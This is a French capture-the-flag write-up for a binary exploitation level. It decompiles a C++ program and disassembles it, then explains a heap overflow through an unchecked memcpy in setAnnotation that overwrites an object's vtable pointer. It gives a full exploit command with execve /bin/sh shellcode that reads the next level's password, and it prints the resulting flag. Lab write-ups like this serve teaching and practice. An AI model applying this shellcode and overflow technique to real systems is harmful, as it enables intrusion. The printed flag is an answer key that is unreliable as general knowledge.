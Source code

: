 # Rapport CTF - [Level09]

### Observation :
En arrivant sur le level9 on trouve un executable nommé level9.\
Quand nous essayons de le lancer nous n'avons pas de retour. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c++
//----- (080486F6) --------------------------------------------------------
void __cdecl N::N(N *this, int a2)
{
  *(_DWORD *)this = off_8048848;
  *((_DWORD *)this + 26) = a2;
}

//----- (0804870E) --------------------------------------------------------
void *__cdecl N::setAnnotation(N *this, char *s)
{
  size_t v2; // eax

  v2 = strlen(s);
  return memcpy((char *)this + 4, s, v2);
}

//----- (080485F4) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  N *v3; // ebx
  N *v4; // ebx
  N *v6; // [esp+1Ch] [ebp-8h]

  if ( argc <= 1 )
    _exit(1);
  v3 = (N *)operator new(0x6Cu);
  N::N(v3, 5);
  v6 = v3;
  v4 = (N *)operator new(0x6Cu);
  N::N(v4, 6);
  N::setAnnotation(v6, (char *)argv[1]);
  return (**(int (__cdecl ***)(N *, N *))v4)(v4, v6);
}
```
Nous pouvons voir que c'est un code en cpp, qui new.
Il n'y a pas de protection sur l'entrer de notre arv[1].
Nous pouvons donc injecter du code.

Regardons l'asm:

```c
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   %ebp
   0x080485f5 <+1>:	mov    %esp,%ebp
   0x080485f7 <+3>:	push   %ebx
   0x080485f8 <+4>:	and    $0xfffffff0,%esp
   0x080485fb <+7>:	sub    $0x20,%esp
   0x080485fe <+10>:	cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	movl   $0x1,(%esp)
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	movl   $0x6c,(%esp)
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    %eax,%ebx
   0x0804861e <+42>:	movl   $0x5,0x4(%esp)
   0x08048626 <+50>:	mov    %ebx,(%esp)
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:	mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:	movl   $0x6c,(%esp)
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:	mov    %eax,%ebx
   0x08048640 <+76>:	movl   $0x6,0x4(%esp)
   0x08048648 <+84>:	mov    %ebx,(%esp)
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:	mov    %ebx,0x18(%esp)
   0x08048654 <+96>:	mov    0x1c(%esp),%eax
   0x08048658 <+100>:	mov    %eax,0x14(%esp)
   0x0804865c <+104>:	mov    0x18(%esp),%eax
   0x08048660 <+108>:	mov    %eax,0x10(%esp)
   0x08048664 <+112>:	mov    0xc(%ebp),%eax
   0x08048667 <+115>:	add    $0x4,%eax
   0x0804866a <+118>:	mov    (%eax),%eax
   0x0804866c <+120>:	mov    %eax,0x4(%esp)
   0x08048670 <+124>:	mov    0x14(%esp),%eax
   0x08048674 <+128>:	mov    %eax,(%esp)
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret 
```
On peux voir a partir de la ligne 136 que eax vas etre mov dans edx qui vas executer sa valeur dereferencer.


### Solution :
Il nous faut donc overflow notre malloc (new) de `108` octets pour mettre une valeur de retour avec l'adresse de notre arv[1]. \
On injecte donc notre code: 
- Notre address de `arv[1] + 4` pour le dereferancement
- Notre `SHELLCODE` (en locurance 24 caracteres)
- Des octets random jusqu'a atteindre `108` pour pouvoir overflow, donc `108 - 4 - 24`
- Et enfin l'adresse de notre arv[1] pour qu'il puisse la dereferancer et arriver sur notre shellcode.

On fait la commande suivante pour obtenir le flag :
```sh
/home/user/level9/level9 $(python -c "print('\x08\x04\xa0\x10'[::-1]  + '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'A'*(108 - 4 - 24) + '\x08\x04\xa0\x0c'[::-1])") <<< "cat /home/user/bonus0/.pass"
```

### Resultat :
```sh
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
